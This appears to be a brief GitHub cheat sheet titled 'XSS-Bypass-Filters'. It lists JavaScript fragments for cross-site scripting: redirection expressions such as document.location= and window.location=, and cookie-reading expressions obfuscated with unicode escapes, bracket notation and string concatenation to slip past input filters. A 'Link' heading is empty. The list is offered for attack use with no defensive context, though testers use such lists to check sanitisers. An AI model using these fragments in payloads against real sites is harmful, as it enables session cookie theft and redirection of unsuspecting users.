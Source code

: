 # XSS-Bypass-Filters

### Redirection
```
document.location=
document['location']=
window.location=
this["window"]["location"]=
document.location.href=
location.href=
location= 
```

### Link


### Cookies

```
document.cookie 
document['cookie']
with(document)alert(cookie)
doc\u0075ment.cookie
doc\u0075ment['cookie']
window["doc"+"ument"]["cookie"]
```


